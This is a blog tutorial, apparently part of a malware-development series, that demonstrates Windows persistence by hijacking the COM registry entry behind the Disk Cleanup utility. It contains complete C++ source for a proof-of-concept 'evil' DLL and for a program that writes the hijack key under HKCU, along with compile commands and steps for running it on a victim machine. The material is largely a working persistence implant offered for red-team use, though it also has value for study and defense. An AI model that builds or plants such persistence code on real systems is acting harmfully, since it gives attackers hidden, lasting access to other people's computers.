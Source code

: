 ```yaml
---
title:  "Malware development: persistence - part 19. Disk Cleanup Utility. Simple C++ example."
date:   2022-11-16 03:00:00 +0300
header:
  teaser: "/assets/images/80/2022-11-18_07-59.png"
categories:
  - persistence
tags:
  - malware
  - windows
  - persistence
  - red team
  - win32api
---
```


﷽

Hello, cybersecurity enthusiasts and white hackers!     

![pers](/assets/images/80/2022-11-18_07-59.png){:class="img-responsive"}    

This post is based on my own research into one of the more interesting malware persistence tricks: via Disk Cleanup Utility.     

### disk cleanup

If you have ever had an issue with limited hard disk space, you are certainly familiar with the Disk Cleanup utility:    

![pers](/assets/images/80/2022-11-18_08-06.png){:class="img-responsive"}    

Good news for red teamers, the *"Files to delete"* list displayed in the user interface is not random. Just run command:    

```powershell
reg query "HKEY_LOCAL_MACHINE\Software\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches" /s
```

![pers](/assets/images/80/2022-11-18_04-42.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_04-44.png){:class="img-responsive"}    

As you can see, there are even default values ​​of registry keys here.    

Also, if we have `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches\default=<CLSID>`, we can find another registry key value: `HKCR\CLSID\<CLSID>\InProcServer32 = <DLLPATH>`:       

![pers](/assets/images/80/2022-11-18_04-51.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_04-54.png){:class="img-responsive"}    

> For demo purposes, here I show the example of the registry from HKEY_CLASSES_ROOT because HKEY_CURRENT_USER is empty

This suggests, that we can use [COM DLL hijacking](/tutorial/2022/05/02/malware-pers-3.html) for persistence. Let's try.    

### practical example

First of all, as usually, create "evil" DLL (`hack.cpp`):      

```cpp
/*
hack.cpp
simple DLL
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/

#include <windows.h>
#pragma comment (lib, "user32.lib")

BOOL APIENTRY DllMain(HMODULE hModule,  DWORD  nReason, LPVOID lpReserved) {
  switch (nReason) {
  case DLL_PROCESS_ATTACH:
    MessageBox(
      NULL,
      "Meow-meow!",
      "=^..^=",
      MB_OK
    );
    break;
  case DLL_PROCESS_DETACH:
    break;
  case DLL_THREAD_ATTACH:
    break;
  case DLL_THREAD_DETACH:
    break;
  }
  return TRUE;
}
```

As usually, for simplicity, it's just `meow-meow` messagbox.    

And then create persistence script (`pers.cpp`):      

```cpp
/*
pers.cpp
windows persistence via Disk Cleaner
author: @cocomelonc
https://cocomelonc.github.io/persistence/2022/11/16/malware-pers-19.html
*/
#include <windows.h>
#include <string.h>
#include <cstdio>

int main(int argc, char* argv[]) {
  HKEY hkey = NULL;

  // subkey
  const char* sk = "Software\\Classes\\CLSID\\{8369AB20-56C9-11D0-94E8-00AA0059CE02}\\InprocServer32";

  // malicious DLL
  const char* dll = "Z:\\2022-11-16-malware-pers-19\\hack.dll";

  // startup
  LONG res = RegCreateKeyEx(HKEY_CURRENT_USER, (LPCSTR)sk, 0, NULL, REG_OPTION_NON_VOLATILE, KEY_WRITE | KEY_QUERY_VALUE, NULL, &hkey, NULL);
  if (res == ERROR_SUCCESS) {
    // create new registry keys
    RegSetValueEx(hkey, NULL, 0, REG_SZ, (unsigned char*)dll, strlen(dll));
    RegCloseKey(hkey);
  } else {
    printf("cannot create subkey value :(\n");
    return -1;
  }
  return 0;
}
```

As CLSID I took `8369AB20-56C9-11D0-94E8-00AA0059CE02`. As you can see code is similar to [COM hijacking](/tutorial/2022/05/02/malware-pers-3.html) post. The difference is only in the values of the variables.   

### demo

Let's go to compile our evil DLL:    

```bash
x86_64-w64-mingw32-gcc -shared -o hack.dll hack.cpp
```

![pers](/assets/images/80/2022-11-18_05-14.png){:class="img-responsive"}    

And persistence script:     

```bash
x86_64-w64-mingw32-g++ -O2 pers.cpp -o pers.exe -I/usr/share/mingw-w64/include/ -s -ffunction-sections -fdata-sections -Wno-write-strings -fno-exceptions -fmerge-all-constants -static-libstdc++ -static-libgcc -fpermissive
```

![pers](/assets/images/80/2022-11-18_05-17.png){:class="img-responsive"}    

Copy to victim's machine. In my case `Windows 10 x64`. Run:     

```powershell
reg query "HKCU\Software\Classes\CLSID\{8369AB20-56C9-11D0-94E8-00AA0059CE02}" /s
.\pers.exe
```

![pers](/assets/images/80/2022-11-18_07-56.png){:class="img-responsive"}    

![pers](/assets/images/80/2022-11-18_07-57.png){:class="img-responsive"}    

As you can see, everything is worked perfectly! =^..^=     

But for persistence. requires the user to run Disk Cleanup Utility. Here, I can use [one of the classic trick](/tutorial/2022/04/20/malware-pers-1.html) for persistence. Adding Disk Cleanup to run during the start-up may not be the best idea, because it has a GUI. I tried using the command line arguments of this program:     

```powershell
cleanmgr.exe
cleanmgr.exe /cleanup
cleanmgr.exe /autoclean
cleanmgr.exe /setup
```

But failed :(. It worked correctly:       

![pers](/assets/images/80/2022-11-18_08-45.png){:class="img-responsive"}    

I think I will return to this issue in one of the future posts.       

Also, according to microsoft documentation, we can add new entries to: `HKLM\SOFTWARE\Microsoft\Windows\CurrentVersion\Explorer\VolumeCaches`      

I don't know if any APT in the wild used this tactic and trick, but, I hope this post spreads awareness to the blue teamers of this interesting technique especially when create software, and adds a weapon to the red teamers arsenal.    

> This is a practical case for educational purposes only.      

[MSDN Registering Disk Cleanup Handler](https://learn.microsoft.com/en-us/windows/win32/lwef/disk-cleanup?redirectedfrom=MSDN#registration)        
[DLL hijacking](/pentest/2021/09/24/dll-hijacking-1.html)     
[DLL hijacking with exported functions](/pentest/2021/10/12/dll-hijacking-2.html)     
[Malware persistence: part 1](/tutorial/2022/04/20/malware-pers-1.html)       
[Malware persistence: part 3](/tutorial/2022/05/02/malware-pers-3.html)       
[source code in github](https://github.com/cocomelonc/meow/tree/master/2022-11-16-malware-pers-19)     

Thanks for your time happy hacking and good bye!   
*PS. All drawings and screenshots are mine*

